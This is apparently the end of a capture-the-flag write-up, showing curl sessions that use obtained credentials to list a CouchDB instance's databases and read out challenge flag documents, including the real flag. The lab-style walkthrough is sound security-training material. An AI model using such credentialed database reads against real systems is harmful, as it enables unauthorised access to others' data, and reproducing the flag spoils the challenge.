 ```bash
$ curl -s http://tempadm:tempadm12@couchdb:5984/neptunian_flag/_all_docs | jq
# Checking all DB documents - There are 2 new!
{
  "total_rows": 2,
  "offset": 0,
  "rows": [
    {
      "id": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "key": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "value": {
        "rev": "1-cee1919fc2eda9a6068ed2792608a9dd"
      }
    },
    {
      "id": "99ea668366ac9d5d74fd2bc91c00fd09",
      "key": "99ea668366ac9d5d74fd2bc91c00fd09",
      "value": {
        "rev": "1-f8744c7d9e172ac4b188fbb8f337a204"
      }
    }
  ]
}

# Owned!
$ curl -s http://tempadm:tempadm12@couchdb:5984/neptunian_flag/99ea668366ac9d5d74fd2bc91c00ed5b | jq
{
  "_id": "99ea668366ac9d5d74fd2bc91c00ed5b",
  "_rev": "1-cee1919fc2eda9a6068ed2792608a9dd",
  "flag": "flag{fake}"
}
```

And, in the day of the challenge:

```bash
$ curl -s http://tempadm:tempadm12@couchdb:5984/flagdb/_all_docs | jq
{
  "total_rows": 1,
  "offset": 0,
  "rows": [
    {
      "id": "d139bf6ab1733d779f64e9c6c4026de9",
      "key": "d139bf6ab1733d779f64e9c6c4026de9",
      "value": {
        "rev": "1-4bb8f6dafef84b2d856fe1444f38b0a2"
      }
    }
  ]
}

$ curl -s http://tempadm:tempadm12@couchdb:5984/flagdb/d139bf6ab1733d779f64e9c6c4026de9 | jq
{
  "_id": "d139bf6ab1733d779f64e9c6c4026de9",
  "_rev": "1-4bb8f6dafef84b2d856fe1444f38b0a2",
  "flag": "flag{JaVA_tHE_GrEAteST_WeB_lANguAge_32154}"
}
```
